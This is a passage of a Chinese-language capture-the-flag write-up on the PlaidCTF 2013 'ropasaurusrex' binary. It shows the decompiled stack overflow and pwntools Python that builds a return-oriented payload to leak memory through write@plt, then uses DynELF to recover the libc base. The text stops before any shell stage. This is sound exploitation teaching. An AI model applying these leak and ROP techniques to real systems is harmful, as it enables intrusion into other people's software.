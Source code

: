 ## PlaidCTF-2013-ropasaurusrex

以 PlaidCTF 2013 中的 ropasaurusrex 为例。程序很简单，明显有溢出：

```cpp
ssize_t __cdecl main()
{
  vul();
  return write(1, "WIN\n", 4u);
}

ssize_t vul()
{
  char buf; // [esp+10h] [ebp-88h]

  return read(0, &buf, 0x100u);
}
```

通过溢出可以修改返回地址为 `start`，来构造无限次输入；同时可以跳 `write` 来泄漏信息。能构造出如下的 leak 函数，每次可以泄漏指定地址上的 4 个字节的数据：

```python
elf = ELF('./ropasaurusrex')

write_plt = elf.plt['write']
start_addr = 0x8048340

def leak(addr):
    payload = flat(
        'A' * 140,
        write_plt,
        start_addr,
        1,
        addr,
        4
    )
    p.sendline(payload)
    data = p.recv(4)
    info(hex(addr) + ' ==> ' + data)
    return data
```

使用 DynELF 指定开始泄漏的地址，可以把 libc 的基址泄漏出来：

```python
#  0x8048000  0x8049000 r-xp     1000 0      /root/tmp/ropasaurusrex
prog = DynELF(leak, 0x8048000)
bases = prog.bases()
info(bases)
for l in bases:
	if 'libc.so.6' in l:
		ptr = bases[l]
info('ptr => ' + hex(ptr))
```
